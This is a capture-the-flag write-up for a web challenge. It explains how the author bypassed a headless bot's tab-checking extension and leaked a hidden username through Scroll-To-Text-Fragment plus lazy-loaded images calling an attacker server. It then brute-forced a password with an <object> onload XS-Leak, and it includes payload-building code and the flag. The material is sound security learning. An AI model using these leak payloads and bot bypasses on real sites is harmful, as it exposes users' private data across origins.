





# \[Web] Existential Crisis Revenge

## TL;DR

* We are given a web server that has a website with login system where only one username and password exist. The login is required to get the flag.
* We are also given a bot server that has a bot with a no-iframe and a tab checker extension. if the tab being open by the bot is a local IP it automatically closes the tab.&#x20;
* The bot server also has a dashboard site that can only be accessed from a local IP. This site shows the username but we have no way to access it directly.
* Using Scroll-To-Text-Fragment (STTF) and \ lazy loading, we can match what character NOT in the username. Fortunately, the username is short and the characters used are distinct so its easy to guess the username with what character are left.
* For the password, we can use an error based events XS Leaks and the misconfiguration (intentionally probably) in the login system where the password is checked with python 'in' and not '==' .&#x20;
* We use the \<object> tag with the data attribute pointing to the login api with the username gotten from the STTF and bruteforcing the password. The onload function from the \<object> tag will trigger on a successful login, so we can guess the password relatively quickly.
* Profit!

Flag: INTECHFEST{Deathcreated\_timetogrow\_thethingthat\_itwouldkill.}

### Disclaimer:

To be completely honest, I was able to even thinking of solving this challenge because from a different competition (CyberOps Clash) I was given the solver of the version 1 of this challenge from the author himself. I am rather new to XS Leak technique and without this solver I wouldn't even know what to do with the challenge.  The solver already tells me to use STTF,  the way to exfiltrate the username, and the way to bypass bot extension. Of course, I asked the author if it was okay if I have the solver of the first challenge and he says it was fine. But I still feel bad because it feels like cheating.

But to give credit to myself, I didn't simply use the solver. I read it, understand it, and make my own solver (even if quite similar) of this challenge. The password exfiltration also wasn't in the solver of version 1. And besides all of that. I learn a lot from this challenge and I want to immortalize it in a writeup of my own.&#x20;


## Description

> Version 2 was never solved by anyone, but here comes the Revenge just a little tweak.

hint:

> bisa di coba di local dlu, solver ku di remote -+ 2 jam an (kalo gk optimal) kalo optimal -+ 30 menit an. statistik mungkin cukup berguna buat optimalkan solver.
>
> you can just use bunch of text to do sttf in dashboard anchor emoji > img lazy true to extract username and for password you can do some niche stuff like redraw timing to leak cross origin ( there are 2 way to solve. using client side like that or use 1 exploit to do without all that necessary stuff )
>
> You can use a TOCTOU attack to bypass the browser extension. Alternatively, if you dig deeper into the DNS layer, you could fully exploit it without relying on leaks (fr, 1shot). no need for STTF or any XS-Leaks but that requires more research, and there's no documentation/paper/writeup in that area yet. So, which method did you use?

## Overview

We are given two websites, one is a simple website with a login system and another is a bot website.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Login Website

Looking at the source code for the simple website, we see that the flag resides in the /dashboard endpoint

<figure><figcaption></figcaption></figure>

but it's guarded my a middleware that checks for an auth cookie when going to the dashboard.

<figure><figcaption></figcaption></figure>

It's a peculiar middleware that doesnt need a real jwt auth token cookie but can e a simple data as long as the username and password is correct.

Looking at the login page, we also see something peculiar,

<figure><figcaption></figcaption></figure>

For one, the login API accepts both a POST request and a <mark style="color:$success;">GET</mark> request.  Another thing is the password, It uses

```python
password in password_verify
```

where password\_verify is just a prefix word followed with a 3 random hex bytes

<figure><figcaption></figcaption></figure>

So you don't even need to know what the whole password is.  Just a <mark style="color:$success;">substring</mark> of the password will suffice.

Other parts of the code doesn't have much relevancy to the solution of the challenge.

### Bot Website

Looking at the source code for the bot website, there are a lot of things to note.

<figure><figcaption></figcaption></figure>

First of all, the bot has a rate-limiting protection so we cannot abuse the bot to fetch many thing at the same time due to checking the IP of the requester and a csrf token.&#x20;

<figure><figcaption></figcaption></figure>

The bot itself takes a URL and a timeout parameter and visits the target URL as per normal. It has a function that cancels the bot from running if the bot is going to a local IP address. It also sends any error that happens to the requester, making it easy to test.

The bot also has an <mark style="color:$danger;">iframe-blocker</mark> extension and a <mark style="color:$warning;">tab checker</mark>. I will skip the <mark style="color:$danger;">iframe-blocker</mark> explanation because from what I see, you cannot do anything towards it but accept that you can't have iframes.&#x20;

On the other hand, the tab checker has some interesting code,&#x20;

<figure><figcaption></figcaption></figure>

When the bot browser opens up a new tab when visiting the given URL, this extension listens for it and check if the tab URL is a local one, not inside the <mark style="color:$success;">tabBlockList</mark> and not inside the <mark style="color:$success;">verifiedTab</mark>. if any of it is not true, the tab is allowed to continue and gets added to the <mark style="color:$success;">verifiedTab</mark> before getting checked with the  <mark style="color:$success;">verifyVerifiedTab</mark> function.

<figure><figcaption></figcaption></figure>

This function is a bit weird and very spesific. It checks the validity of the tab by going to the current tab URL and fetch to the /verify/tabid endpoint. The response even need to match a random function. So it's designed to <mark style="color:$danger;">not accept any URL</mark> really.


Other than the bot itself, the website has a dashboard page. This is where things get interesting.&#x20;

```typescript
app.get("/dashboard", async (req, res) => {
  if (!req.socket.remoteAddress?.includes("127.0.0.1") && !req.socket.remoteAddress?.includes("::1") && !req.socket.remoteAddress?.includes("172.22.0.1")) {
    console.warn(`[IP] ${req.socket.remoteAddress} accessing dashboard`);
    res.status(400).json({ message: "Invalid IP" });
    return;
  }
  const allowedTags = [
    "h1",
    "h2",
    "h3",
    "h4",
    "h5",
    "h6",
    "p",
    "div",
    "span",
    "strong",
    "em",
    "b",
    "i",
    "u",
    "ul",
    "ol",
    "li",
    "code",
    "pre",
    "br",
    "blockquote",
    "img",
    "table",
    "thead",
    "tbody",
    "tr",
    "td",
    "th",
    "a",
  ];
  const allowedAttrs = [
    "src",
    "alt",
    "loading",
    "title",
    "href",
    "style",
    "rel",
    "target",
  ];
  const rawQuery = req.query.cok || "zeroDayOnDompurify";
  const rawHTML = await marked.parse(rawQuery.toString());
  const sanitizedMarkdownReadme = DOMPurify.sanitize(rawHTML, {
    ALLOWED_TAGS: allowedTags,
    ALLOWED_ATTR: allowedAttrs,
  });
  res.render("dashboard", {
    data: sanitizedMarkdownReadme,
    username: process.env.USERNAME || "exampleuser",
  });
});
```

We see that we have a DOM injection with some restriction through dompurify with some allowed tags and attributes. This endpoint also checks for the requester IP address. Effectively, only allowing the bot itself to go to the dashboard.&#x20;

We also see that the username is being send to the website. But looking at the html we see that it is not being rendered as it is set up with "display: none;"

<figure><figcaption></figcaption></figure>

Looking close though, we see that in the javascript being used the username is actually being displayed like the one in the  index endpoint. The way the username being displayed is through this function

```javascript
function putText(text) {
    const emojis = [
      "^_^",
      ">_<",
      "owo",
      ":3",
      "uwu",
      "xD",
      "._.",
      "o_o",
      "T_T",
      "ಠ_ಠ",
      ":D",
      ":)",
      ":P",
      ";)",
      "-_-",
      ">:3",
      "♡",
      "｡^‿^｡",
      "(≧◡≦)",
      "ʕ•ᴥ•ʔ",
    ];

    const line = document.createElement("div");
    line.style.display = "flex";
    line.style.justifyContent = "center";
    line.style.marginBottom = "1rem";
    line.style.flexWrap = "wrap";
    line.style.gap = "0.5rem";

    for (let i = 0; i < text.length; i++) {
      const emoji = emojis[i % emojis.length];
      const char = text[i];

      const box = document.createElement("div");
      box.className = "emoji-char-box";
      box.textContent = `${emoji}\n${char}`;
      box.style.whiteSpace = "pre";
      box.style.display = "inline-block";
      box.style.textAlign = "center";
      box.style.margin = "0 6px";
      box.style.border = "2.5px solid #ff0000";
      box.style.background = "#111";
      box.style.color = "#fff";
      box.style.padding = "10px 12px";
      box.style.fontFamily = "Impact, Arial Black, monospace";
      box.style.fontSize = "1.1rem";
      box.style.lineHeight = "1.4";
      box.style.transform = `rotate(${rand(-5, 5)}deg) skew(${rand(
        -6,
        6
      )}deg, ${rand(-6, 6)}deg) translate(${rand(-2, 2)}px, ${rand(-2, 2)}px)`;

      line.appendChild(box);
    }

    container.appendChild(line);
  }
```

This function iterates every character in the username and pair it with an emoji and display it in a pretty way just like in the index page.&#x20;

## Solution

For this challenge, I made a web server that will act as an attacker server as it is quite needed to solve this challenge. The server is just a simple python flask server. I also used pinggy to create TCP Tunneling to have a public IP address the bot can go to.

### Part 0 - bypass bot restriction with redirect

As stated before, the point of interest in the bot is in the internal server. The dashboard with the username. But internal IP are blocked, with a URL checker and an extension that watches the bot tab browser. To access the internal server and start exfiltrating anything, we need to bypass that restriction first.

The URL restriction is rather simple and is one of the reason why we want our own website. We just create an HTML page that will redirect to localhost after a couple milliseconds like so,

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <title>Redirecting</title>
  </head>
  <body>
    <h1>⏳ Please wait... Redirecting in 3 seconds</h1>
    <a id="redirectLink" href="{{ url|safe }}" style="display: none"></a>
    <script>
      window.focus();
      setTimeout(() => {
        try {
          window.focus();
        } catch (e) {
          console.warn("Focus blocked by browser.");
        }
        document.getElementById("redirectLink").click();
      }, 4000);
    </script>
  </body>
</html>
```

With this what we give to the bot is our website URL but we will still access the localhost after a couple of milliseconds.

The second part is more tricky, it checks for the tab URL and listen to every update of it. Looking at the code given before, we know that if the tab URL changes to an internal one, it will instantly closes except if you are a verified tab.&#x20;

Any tab that isn't an internal one will be set as a verified one first but then gets checked by the <mark style="color:$success;">verifyVerifiedTab</mark> function.&#x20;

The idea to bypass this is by going to non-internal website, makes the tab a verified one, makes the <mark style="color:$success;">verifyVerifiedTab</mark> doesn't change the verified status, redirect to an internal address as it would be in the same tab and counted as a verified tab and thus not get deleted.

The way to do this is to make the <mark style="color:$success;">verifyVerifiedTab</mark> function suspended for a long enough time for us to redirect to the internal address.&#x20;

<figure><figcaption></figcaption></figure>

The function checks the tab by fetching to a <mark style="color:$success;">/verify</mark> endpoint of the current tab URL. The interesting part is <mark style="color:$success;">await</mark> and <mark style="color:$success;">fetch</mark> doesn't have an internal timeout mechanism. It will suspend indefinitely until either the connection is broken or the server response.

<figure><figcaption></figcaption></figure>

So we can make the bot goes to our website, it will try to verify the current  tab. it fetches to our <mark style="color:$success;">/verify</mark> endpoint and it will wait for a long long time. This way we'll bypass this extension as long as we're using the same tab.


### Part 1 - Exfiltrate username with STTF + \ Lazy Load

We know that the username is being displayed in the dashboard page. It also being displayed through a function that pairs each character to an emoji. with this knowledge, we can exfiltrate the username through and exploit called STTF.

Scroll-To-Text-Fragment (STTF) is a chrome browser feature that enables users to create a link to any part of a web page text. The fragment <mark style="color:$warning;">`#:~:text=`</mark> carries a target text where if exist will highlight and auto scroll to bring the viewport to the text.

Image Lazy loading is a performance booster feature where images isn't instantly load but only when it's in the viewport as to not load all the images at once in the start but done so gradually.

Those two feature combined makes an interesting attack vector. If we can make the STTF trigger to a word that is close to an image with lazy loading that is set to fetch to an attacker server, we can confirm if a word exist in the page or not.&#x20;

But we cant bruteforce it from nothing, just doing <mark style="color:$warning;">`#:~:text=a`</mark> wont be useful because there almost always multiple 'a' inside the page. We also need an anchor. Typically, in a profile website there would be something like <mark style="color:$warning;">`username: <username>`</mark> . we can use this as anchor like <mark style="color:$warning;">`#:~:text=username: a`</mark> as it will most likely be unique and SSTF would auto scroll to it.

<figure><figcaption></figcaption></figure>

We know from this function that each word is associated with an emoji. we will use that emoji an the anchor in this challenge STTF.&#x20;

This is how we will exfiltrate the username. Unfortunately, it wont be as direct as that.  The username is located at the top of the page. If we put the image up there, we wont be able to differentiate if the STTF triggered or not because the image will always be loaded instantly.

Instead, we make a list of possible characters of the username and checks for characters that aren't in the username. We put a \<div> with a super long height followed with the text "IFHITNOTCHAR" and image with lazy loading. We then use two text in the STTF, <mark style="color:$warning;">`#:~:text={emoji}%0A{char_guess}&text=IFHITNOTCHAR`</mark>. if the first text, the guessed char, isn't found then the browser will auto scroll to the second text, which exist and unique, and so will trigger the image load.

<figure><figcaption></figcaption></figure>

So if the STTF doesn't find the first text --meaning the guessed char not in the username-- it will auto scroll to the bottom and triggers the lazy load and fetch to our attack website <mark style="color:$success;">/hit</mark> endpoint. There we will remove the character from our list of possible characters.

```python
anchor = ""
for emoji in EMOJIS:
    anchor += f"text={emoji}%0A{char}&"
payload = f"<div style='height: 10000px; width:100%; display: block;'>padding</div><div style='display: block'> IFHITNOTCHAR </div>"
sstf_payload = f"#:~:{anchor}text=IFHITNOTCHAR" 
target_with_payload = context['target_internal'] + f"/dashboard?cok={quote(payload)}{sstf_payload}"
return render_template("redirect.html", url=target_with_payload)
```

I made a list of character of lowercase and uppercase letters, numbers, and some special characters <mark style="color:$warning;">`!$()*,-.:_`</mark>. And make every emoji pair up with a single character and send it at once. This way we first check for any characters that aren't pair up with any emojis, or so to say <mark style="color:$danger;">aren't</mark> in the username.

```python
anchor = f"{emoji}%0A{char}"
payload = f"<div style='height: 10000px; width:100%; display: block;'>padding</div><div style='display: block'> IFHITNOTCHAR </div>"
sstf_payload = f"#:~:text={anchor}&text=IFHITNOTCHAR" 
target_with_payload = context['target_internal'] + f"/dashboard?cok={quote(payload)}{sstf_payload}"
return render_template("redirect.html", url=target_with_payload)
```

After the first filtering, I now pair a single emoji with a single character one by one. This is to filter out the characters that aren't being paired by each emoji.&#x20;

```json
"^_^": [
    "r",
    "R"
],
">_<": [
    "x",
    "X"
],
"owo": [
    "g",
    "G"
],
":3": [
    "t",
    "T"
],
"uwu": [
    "y",
    "Y"
],
"xD": [
],
"._.": [
],
"o_o": [
],
"T_T": [
],
..... etc
```

We can see the possible word are only `rgtxy` or its uppercase variants, as from emoji `xD` and below is empty. Luckily, the author is nice and the username is short and doesn't use any weird characters.

<figure><figcaption></figcaption></figure>

I didn't see this at first but it turns out that the only valid character was just lowercase alphabet. So the username must be, <mark style="color:$success;">`rgtxy`</mark>

### Part 2 - Bruteforcing password with Error Based Resource XS Leak

This part is relatively simpler than the previous part. We know that the password starts with <mark style="color:$warning;">`replicanx`</mark>. And although we need to know the whole password to know the flag, we don't really need the whole password to login.&#x20;

<figure><figcaption></figcaption></figure>

As we see here, to login we only need a substring of the password to login. With this guessing the password become exponentially feasible. before we must bruteforce 16^6 ≈ 16 million times but with this we only need to do it 16\*6 = 256 times. A very feasible number to bruteforce.&#x20;

But how to bruteforce it?&#x20;

<figure><figcaption></figcaption></figure>

To login, we need to do it from an internal IP, that is, the bot must be the one who login. But then how to know if the login successful or not? We cannot directly read the bot fetch nor window.open result because of Same-Origin-Policy (SOP) which stops us from reading cross-site fetches. The bot can''t read it either as the bot and the login server uses different port and considered different origin.

The answer is another XS Leaks Technique using error based events. We can use resource loading pointing to the login api and use onload or onerror to see failure or success of the login.&#x20;

It has some caveat though, the onload function will only trigger when both of the following condition si true,

1. The resource exist; returns a 200 OK status
2. The content-type matches:
   1. \        ->   image/\*
   2. \<script>    ->    application/javascript  (json counts)
   3. \<object>   ->    text/html

Looking again at the code, we see that the login api allows a GET for login and returns a successful login with a 200 OK status and returns a text/html. We can exfiltrate the password!.

We make another endpoint in our attacker website that has an object tag with the data attribute pointing to `http://localhost:1336/api/login?username=rgtxy&password=replicanx{guess}`. And make the onload function fetches to another of our hit endpoint to see the password.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We then just make the bot go to our attacker website and we're done! we get the password &#x20;

### Part 3 - Getting the FLAGGGGG

We now have the username and password. To get the flag, we just need to go to the dashboard with a cookie called 'username' with the value of the username we found and another cookie called 'auth' with the value the password we found.&#x20;

With that, we can access the dashboard and get the flag.


## Afterthought&#x20;

As I mentioned before, I got the solver for the v1 version of the challenge from a previous competition I were in. The solver definitely helps a lot at solving this challenge because literaly half of the challenge was already completed.

But again, I learned many new things and techniques that I want to make a writeup to solidify those knowledge. Hopefully next time, I can solve another hard question all by myself.

## Links

Source Code & solver



References


